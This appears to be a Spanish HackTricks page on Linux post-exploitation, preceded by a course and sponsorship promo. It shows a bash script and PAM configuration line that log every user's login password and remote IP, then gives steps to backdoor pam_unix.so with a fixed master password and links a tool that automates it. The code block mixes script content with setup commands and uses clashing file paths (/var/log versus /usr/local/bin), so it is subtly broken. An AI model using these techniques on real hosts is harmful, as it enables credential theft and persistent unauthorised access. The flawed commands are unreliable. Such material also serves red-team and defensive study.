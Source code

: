 # Post-Explotación en Linux

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Red Team de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Capturando Contraseñas de Inicio de Sesión con PAM

Configuremos un módulo PAM para registrar cada contraseña que cada usuario utiliza para iniciar sesión. Si no sabes qué es PAM, consulta:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**Para más detalles, consulta el [post original](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. Esto es solo un resumen:

**Resumen de la Técnica:**
Los Módulos de Autenticación Pluggable (PAM) ofrecen flexibilidad en la gestión de la autenticación en sistemas basados en Unix. Pueden mejorar la seguridad al personalizar los procesos de inicio de sesión, pero también representan riesgos si se utilizan incorrectamente. Este resumen describe una técnica para capturar credenciales de inicio de sesión utilizando PAM, junto con estrategias de mitigación.

**Capturando Credenciales:**
- Se crea un script bash llamado `toomanysecrets.sh` para registrar intentos de inicio de sesión, capturando la fecha, nombre de usuario (`$PAM_USER`), contraseña (a través de stdin) y la IP del host remoto (`$PAM_RHOST`) en `/var/log/toomanysecrets.log`.
- Se hace ejecutable el script e se integra en la configuración de PAM (`common-auth`) utilizando el módulo `pam_exec.so` con opciones para ejecutarse en silencio y exponer el token de autenticación al script.
- El enfoque demuestra cómo un host Linux comprometido puede ser explotado para registrar credenciales discretamente.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Instalación de una puerta trasera en PAM

**Para más detalles, consulta el [post original](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**. Esto es solo un resumen:

El Módulo de Autenticación Enchufable (PAM) es un sistema utilizado en Linux para la autenticación de usuarios. Opera en tres conceptos principales: **nombre de usuario**, **contraseña** y **servicio**. Los archivos de configuración para cada servicio se encuentran en el directorio `/etc/pam.d/`, donde las bibliotecas compartidas manejan la autenticación.

**Objetivo**: Modificar PAM para permitir la autenticación con una contraseña específica, evitando la contraseña real del usuario. Esto se enfoca particularmente en la biblioteca compartida `pam_unix.so` utilizada por el archivo `common-auth`, que es incluido por casi todos los servicios para la verificación de contraseñas.

### Pasos para Modificar `pam_unix.so`:

1. **Localiza la Directiva de Autenticación** en el archivo `common-auth`:
- La línea responsable de verificar la contraseña de un usuario llama a `pam_unix.so`.
2. **Modifica el Código Fuente**:
- Agrega una declaración condicional en el archivo fuente `pam_unix_auth.c` que otorga acceso si se utiliza una contraseña predefinida, de lo contrario, continúa con el proceso de autenticación habitual.
3. **Recompila y Reemplaza** la biblioteca `pam_unix.so` modificada en el directorio apropiado.
4. **Pruebas**:
- Se otorga acceso a través de varios servicios (inicio de sesión, ssh, sudo, su, protector de pantalla) con la contraseña predefinida, mientras que los procesos de autenticación normales permanecen sin cambios.

{% hint style="info" %}
Puedes automatizar este proceso con [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
{% endhint %}
